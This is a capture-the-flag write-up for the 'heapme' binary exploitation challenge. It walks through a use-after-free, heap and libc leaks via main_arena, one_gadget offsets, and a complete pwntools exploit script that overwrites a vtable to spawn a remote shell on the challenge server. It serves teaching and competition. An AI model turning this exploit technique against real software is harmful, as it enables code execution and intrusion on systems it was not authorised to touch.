




# FIC CTF by Hexpresso: heapme

This is a write up for the seventh and last step of this CTF. It is a binary
exploitation challenge, named *heapme*.

**Introduction**

We are provided a `.zip` file, locked by a password. A quick bruteforce using
[fcrackzip](http://manpages.ubuntu.com/manpages/trusty/man1/fcrackzip.1.html)
and `rockyou.txt` reveals the password: `powell82435`.

Inside the archive are the following files:


A binary, a shared library (the libC for this challenge) and a few files in
order to connect to the online version of the service.

Static analysis reveals that the binary is written in `C++`. We can notice
three important classes: `Disk`, `DiskFactory`, and `Manager`.

PIE is activated.

Let's run the binary and see what happens:


We can already guess what kind of challenge it is... We can
create/read/write/delete disks and the memory that these disks manage live in
the heap. This really looks like a Use After Free (UAF) challenge. Such
vulnerability revolves around our ability to read/write memory that has already
been free'd but is re-used at some point of the runtime.

We also notice that the program ends abnormally. This is because of `alarm`
being called at the beginning of the program. We just patch it locally it using
a bunch of `\x90` so that we don't have to worry about it for now.

**Dynamic Analysis**

The first thing we need is the address of the start of the heap. Then, we
need to find out if we can actually read a free'd address.

In order to find where the heap starts, we put a breakpoint into `Disk::read()`
as this method accesses the disk's data, which lives in the heap. So, we create
a disk and read its data:


The start of the heap is in RAX:



We can now play with the binary in order to find a sequence of actions that
leads to a use after free. If we allocate a disk, delete it and then read it,
we get a segmentation fault. This is promising. A little debug revealed that
the program tries to access the vtable entry leading to `Disk::read()`, which
as been deleted.

Even more debug allows us to understand that there are actually 2 allocations
being made:

* One to store the vtable address, plus the `data` pointer
* A second one to actually allocate the data memory

We also know that when we write a disk's data, there is no limitation. One
thing we can do is overflow the vtable of the next disk. We've got a strategy
now: write the address of `one_gadget` (a gadget that, on its own, pops a shell
through `execve`) at the start of data, then overwrite the vtable with the
address that stores our gadget, and finally call it.

In order for this to work we need two more pieces of informaiton: a heap leak,
and a libC leak.

My mate Blue noticed that if we create two disk, delete them, then create
another one and read this last one, the address where the `data` pointer
points to is leaked. And this address is in the heap. Sweet!

We are still missing a libC address on our heap, which will be required to even
hope leaking it. Hopefully, `free` leaves an address of a libC section (the
`main_arena`) on the heap, in order to optimize the next malloc (so when you
call malloc for a size that already have a free’d block of this same size, it
doesn’t have allocate more memory). More information
[here](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/).

There is a little trick we can do. We know that if we allocate then free two
disks, and then allocate another one, its data pointer will point to the heap.
But what if it actually points to a free'd chunck thanks to the heap-free-bin
mechanism?

Let's try that. First step: get the `main_arena` address on the heap. The plan
is as follows:

* Allocate a first disk (A) of size 0x100
* Allocate a second disk (B) of size 0x200
* Allocate a third disk (C) of size 0x100
* Free the second one

Free will be tricked into thinking that it is a good idea to leave a pointer
to the `main_arena` in order to optimize the next allocation. Warning,
big screenshots ahead:



We can see our three allocations: one on the first line of the dump, another
one around the middle and the last one on the last line. Our guesses on the
layout of vtable/data look correct.

Let's now free B:



Gotcha! As planned, we've got our `main_arena` down on the heap!

Let's remember how far this address is from `main_arena`, it will be usefull
later: `main_arena+88`, alright.

We now allocates a fourth disk (D). This one must be little enough to be
stored inside what used to be B. Let's say 0x100:



There it is! Now we just have to read D and we have our `main_arena` leak
(look at where `0x55555556b590` points).

Note that we are lucky `Disk::Disk()` makes two allocations on the heap when
allocated. Since `malloc` optimized our previous free (B), it also noticed that
D was small enough to fit inside the memory left free after we free'd B. So D
litterally took the place of B, and data was allocated just where the B free left
the `main_arena` pointer.
We don't write anything in the `data` of the disk. So when we trigger a read,
it shows us the `main_arena`.

We can see that another `main_arena` address is on the heap. It's because we
only used 0x100 bytes (D) out of the 0x200 B was made of. So, `malloc`, smartly
registers that there is still 0x100 bytes available after D, in order to
optimize the next allocation. But it won’t be of any use there, we’re already
done.

We, now, have everything we need, except for some offsets working with the
remote library, let’s find them. Let's start with the offset of the
`main_arena` in the targetted libC. I use a little binary (I unfortunately
forgot the github repository, but you’ll find plenty of them in the internet):


We saw that our leak was `main_arena+88`, remember ? That means our leak is at
offset `0x3c4b78`.

Now let’s find the offset of our `one_gadget`. We’ll use another tool for this,
called `one_gadget`, (gem install `one_gadget` to get it):


On the stack (where points RSP) the only data we control just start after RSP+0x70
(at RSP+0x70 starts the storing of an array of pointers,
themselves pointing on allocated Disks), so I decided to use the last one, `0xf1147`.
The relative
address of this gadget, using our leak, is calculated as follows:  0x3c4b78 -
0xf1147 = 0x2d3a31, so 0x3c4b78 – 0x2d3a31 = 0xf1147. We'll use 0x2d3a31 as
offset to get our gadget's address from our leak.

**PWN Time**

It's now pwn time! As reminder, we want to overwrite the vtable of a disk by
overflow, in order to call the gadget.

We're gonna get our heap leak, then "clear" every disk, get the libC leak,
clear again, and finally run the exploit. Our gadget requires `rsp + 0x70` to be
`null`. With a little stack inspection we quickly understand that an array of
pointers (that points to the disks) jams our stack. The trick here is to never
allocate anything in the first indexes. If no pointers is ever allocated, then
it remains NULL. Let’s go!

Python script:

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *
import struct
import sys
import ssl


exe = ELF("heapme")
hostname = "ctf.hexpresso.fr"
context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
context.load_cert_chain(certfile="client.pem")
context.load_verify_locations(cafile="server.crt")
context.verify_mode = ssl.CERT_REQUIRED
sock = socket.create_connection((hostname, 4242))
ssock = context.wrap_socket(sock, server_hostname=hostname)


def createDisk(size, index):
    index = str(index)
    size = str(size)
    io.recvuntil('Command: ')
    io.sendline('0')
    io.recvuntil('Size: ')
    io.sendline(size)
    io.recvuntil('Index: ')
    io.sendline(index)


def deleteDisk(index):
    index = str(index)
    io.recvuntil('Command: ')
    io.sendline('3')
    io.recvuntil('Index: ')
    io.sendline(index)


def readDisk(index):
    index = str(index)
    io.recvuntil('Command: ')
    io.sendline('1')
    io.recvuntil('Index: ')
    io.sendline(index)
    io.recvuntil('Data: ')
    disk = io.recvuntil('\n')
    return (disk)


def writeDisk(index, data):
    index = str(index)
    io.recvuntil('Command: ')
    io.sendline('2')
    io.recvuntil('Index: ')
    io.sendline(index)
    io.recvuntil('Data: ')
    io.sendline(data)


def final(index):
    index = str(index)
    io.recvuntil('Command: ')
    io.sendline('1')
    io.recvuntil('Index: ')
    io.sendline(index)


def paddTo64(e):
    dif = 8 - len(e)
    for i in range(dif):
        e = e + '\x00' 
    return (e)


offsetFromOneGadget = 0x2d3a31
#offsetFromOneGadget = 0x2d5f6e


io = remote.fromsocket(ssock)
#io = process("strace -o /tmp/strace ./heapme".split(" ") )
#io = process("./heapme")


print ("[@] Getting heapLeak...")


#sleep(19)


createDisk(8, 38)
createDisk(8, 39)
deleteDisk(38)
deleteDisk(39)
createDisk(8, 40)
heapLeak = readDisk(40)


heapLeak = heapLeak[:-1]
heapLeak = paddTo64(heapLeak)


heapLeak = struct.unpack('<Q', heapLeak)[0]
print("[*] heapLeak = " + hex(heapLeak))
print("[@] Getting libcLeak...")


deleteDisk(40)
createDisk(0x100, 38)
createDisk(0x208, 39)
createDisk(0x100, 40)
deleteDisk(39)


createDisk(0x100, 39)
createDisk(0x80, 41)
deleteDisk(39)
deleteDisk(40)


libcLeak = readDisk(41)
libcLeak = libcLeak[:-1]
libcLeak = paddTo64(libcLeak)
libcLeak = struct.unpack('<Q', libcLeak)[0]


print("[*] libcLeak = " + hex(libcLeak))


oneGadgetAddr = libcLeak - offsetFromOneGadget


print ("[*] oneGadgetAddr = " + hex(oneGadgetAddr))


print("[*] Data from the first allocated disk is located at : " + hex(heapLeak + 0x30))


print("[@] Cleaning disks and starting the exploitation...")
deleteDisk(41)


createDisk(8, 42)
createDisk(8, 41)
createDisk(8, 40)
createDisk(16, 38)
createDisk(16, 39)


writeDisk(39, struct.pack('<Q', oneGadgetAddr))
writeDisk(38, struct.pack('<Q', heapLeak + 0x220 ) + (("a" * 8) * 0x3) + struct.pack('<Q', heapLeak + 0x260))
final(39)
io.sendline("id")
#io.sendline("cat flag.txt") # that's how to validate the challenge
io.interactive()
```

One last thing to know if you want to understand why I added 0x220 to
`heapleak`.  It is because the leak is the address of the very first allocated
disk.

And there we are!


If you test it in remote, make sure your connection is fast enough to send and retrieve everything
before the alarm rings. It also might not work on the first try due to the fact that the padding function
has been made quickly on the run, and will bug if there is some `\x00` inside the address.

Hope you enjoyed the write up. A big thank you to Hexpresso for this very
interesting challenge, and to Geographer who made this write up actually read-able.

We are Team Ropkek, which for this CTF was composed of: Plean, Geographer, Blue
and myself, Pycatchown.

Member's Twitter:
    [@ShiroPycatchown](https://twitter.com/ShiroPycatchown),
    [@geographeur](https://twitter.com/geographeur),
    [@plean702](https://twitter.com/plean702),
    [@jukebox_re](https://twitter.com/jukebox_re).
    
Don't hesitate to check out [@HexpressoCTF](https://twitter.com/HexpressoCTF), you'll find there [@chaignc](https://twitter.com/chaignc), the author of this challenge, and Geographer told me he is super hot.